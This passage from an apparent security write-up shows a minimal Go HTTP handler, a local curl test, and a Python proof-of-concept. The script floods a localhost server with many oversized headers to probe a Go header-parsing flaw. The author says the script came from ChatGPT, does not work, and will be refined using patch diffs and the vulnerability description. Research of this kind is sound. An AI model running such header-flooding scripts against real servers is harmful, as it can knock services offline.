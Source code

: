 ```go
func handler(w http.ResponseWriter, r *http.Request) {
    fmt.Fprintf(w, "Hello, World!\n")
}
```

<br />

 - Test it:

```
url="http://127.0.0.1:8081"

curl -v "$url"

# output: Hello, World!
```

 - PoC: ask chatgpt to write a PoC with python then fix it and you'll have something like this:

```python
# python main.py 1024 100

import requests
import sys

try :
  n = int(sys.argv[1])
  counter = int(sys.argv[2])
except :
  print("usage {} <x-size> <y-repeat-header>".format(sys.argv[0]))
  sys.exit(-1)

headers = {}
for x in range(counter) :
  headers.update({
    f"Key{x}" : "A"*n + ": " + f"value{x}"
  })

url="http://127.0.0.1:8081"
response = requests.get(url, headers=headers)

print(response.status_code)
print(response.text)

```

<p align ="center">
  <img src="/files/2023-04-14/t18.jpg">
</p>

<br />

It does not work :') but this time we'll not "cheat" by looking at the source code. Instead we use the same technique by sending diff files, then we update the vulnerability description. The following vuln description is used: <a href="https://go-review.googlesource.com/c/go/+/481994">link</a>.

